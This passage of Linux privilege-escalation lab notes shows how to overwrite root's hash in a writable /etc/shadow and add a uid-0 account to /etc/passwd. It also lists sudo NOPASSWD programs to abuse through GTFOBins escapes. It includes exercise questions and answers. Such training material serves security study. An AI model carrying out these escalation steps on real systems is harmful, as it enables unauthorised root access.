 
Generate a new password hash with a password of your choice:

```
ls -l /etc/shadow

mkpasswd -m sha-512 newpasswordhere

sudo nano /etc/shadow

# MUST KEEP :17298:0:99999:7::: AT THE END !

root:$6$yrVnTdV3KaUMi$/Mx.x1P2urEbFMg6X9BfFPOCs5162dY25QZ2yMC0PCRF.mw0UFepPgnBCjCtVMtqhsJxe70Qd7shiSoEukhOO.:17298:0:99999:7:::
```

Edit the /etc/shadow file and replace the original root user's password hash with the one you just generated.

Switch to the root user, using the new password:
```
su root
newpasswordhere
```

The /etc/passwd file contains information about user accounts. It is world-readable, but usually only writable by the root user. Historically, the /etc/passwd file contained user password hashes, and some versions of Linux will still allow password hashes to be stored there.
Alternatively, copy the root user's row and append it to the bottom of the file, changing the first instance of the word "root" to "newroot" and placing the generated password hash between the first and second colon (replacing the "x").

```
Run the "id" command as the newroot user. What is the result?

uid=0(root) gid=0(root) groups=0(root)

```

## sudo shell escape sequence 


List the programs which sudo allows your user to run:

`sudo -l`

Visit GTFOBins ([https://gtfobins.github.io](https://gtfobins.github.io/)) and search for some of the program names. If the program is listed with "sudo" as a function, you can use it to elevate privileges, usually via an escape sequence.

Choose a program from the list and try to gain a root shell, using the instructions from GTFOBins.

For an extra challenge, try to gain a root shell using all the programs on the list!

```
sudo -l

(root) NOPASSWD: /usr/sbin/iftop
    (root) NOPASSWD: /usr/bin/find
    (root) NOPASSWD: /usr/bin/nano
    (root) NOPASSWD: /usr/bin/vim
    (root) NOPASSWD: /usr/bin/man
    (root) NOPASSWD: /usr/bin/awk
    (root) NOPASSWD: /usr/bin/less
    (root) NOPASSWD: /usr/bin/ftp
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/sbin/apache2
    (root) NOPASSWD: /bin/more


```